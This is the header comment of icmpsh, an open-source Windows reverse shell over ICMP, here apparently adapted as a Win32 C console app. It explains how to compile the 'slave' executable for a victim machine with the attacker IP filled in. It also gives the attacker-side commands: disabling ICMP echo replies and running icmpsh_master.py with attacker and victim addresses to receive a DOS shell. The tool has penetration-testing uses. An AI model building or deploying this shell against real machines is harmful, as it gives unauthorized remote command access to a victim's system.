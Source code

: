  icmpsh - icmp windows MASTER-SLAVE shell
 Original Copyright (c) 2010, Nico Leidecker <nico@leidecker.info>

     Modified by F.Zinzloun.Bersani to a Win32 C console app. Folloows configuration in VS 2015:
	 - create a C++ Win32 Console App
	 - delete all the headers file, leave only the main cpp file
	 - copy the content of this file inside the main cpp file. Change the extension of the file in .c
	 - configure the attacker IP at line 39
	 - open the project's properties window,expand C/C++, select All options and set the following:
		-Compile as: Compile as C code/TC
		-Precompiled Headers: Not using precompiled headers
		-Runtime library to Multi-threaded/MT (will include the visual c++ runtime in the exe)
    That should be enough. Generate it. Tested on Windows Server 2008 64bit, Windows 10 Home\Pro Edition 64 bit
	
    On the attacker machine, of course a Kali box execute the master after having disabled ICMP replies (set to 0 to restore it)
    #sysctl -w net.ipv4.icmp_echo_ignore_all=1
    
    execute the master: icmpsh-master.py <attacker (master) IP address> <victim (slave) IP address>
    ./icmpsh_master.py 192.168.1.66 192.168.1.17

    Now the master is waiting for the incoming victim connection...
    
    On the windows victim (slave) machine execute the compiled exe, check the Linux master box, you should get a DOS shell!  
